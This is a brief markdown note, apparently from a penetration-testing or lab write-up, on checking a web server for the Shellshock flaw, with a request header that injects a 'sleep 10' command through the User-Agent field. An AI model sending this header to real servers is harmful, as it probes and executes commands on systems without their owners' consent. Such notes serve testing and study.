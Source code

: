 check shellshock. 

```bash
User-Agent: () { :; };sleep 10
```

![image-20220927234107335](./images/image-20220927234107335.png)

check 2 sec to verify.
